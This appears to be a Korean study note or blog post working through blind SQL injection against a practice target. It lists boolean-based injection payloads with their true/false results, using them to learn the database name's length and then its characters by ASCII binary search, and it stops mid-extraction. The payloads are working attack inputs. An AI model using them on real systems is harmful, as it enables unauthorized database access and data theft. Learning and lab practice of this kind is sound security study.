# Blind SQL Injection
## 1. START
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-14.png?raw=true)
1. **normaltic' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-15.png?raw=true)
1. **normaltic' and '1' = '1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-16.png?raw=true)
1. **normaltic' and '1' = '2' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-17.png?raw=true)
1. **normaltic' and ('1' = '1') and '1' = '1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-18.png?raw=true)
1. **normaltic' and ('1' = '1') and '1' = '2' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-19.png?raw=true)
1. **normaltic' and (select 'test' = 'test') and '1' = '1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-20.png?raw=true)

## 2. DATABASE
### 2.1. 이름 글자수 확인
* `char_length(string)`: 주어진 string의 글자수를 반환한다.

---

1. **normaltic' and ((char_length(database())) > 10) #**
-> X  
1. **normaltic' and ((char_length(database())) < 6) #**
-> X  
1. **normaltic' and ((char_length(database())) < 10) #**
-> O  
1. **normaltic' and ((char_length(database())) < 8) #**
-> X  
1. **normaltic' and ((char_length(database())) = 9) #**
-> O  
-> 😭 아... 9번...

### 2.2. 이름 확인
* `SUBSTR(string, start, length)`: 주어진 string을 start 위치부터 length개를 잘라 반환한다.
* `ASCII(character)`: 글자 하나에 ASCII 값을 반환한다. ASCII CODE 범위는 0 ~ 127이다.
* 이 두 함수를 이용해 글자를 하나하나 잘라서 ASCII 코드로 변환한다. 그 후 이진탐색을 통해 그 값을 찾을 것이다.
* 모든 글자를 다 찾기는 너무나도 귀찮으니 하나씩 건너띄면서 확인하고 남은 건 예측했다.

---

1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 63) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 95) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 111) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 103) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 99) #**
-> X  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) > 97) #**
-> O  
1. **normaltic' and (ascii(substr((select database()), 1, 1)) = 98) #**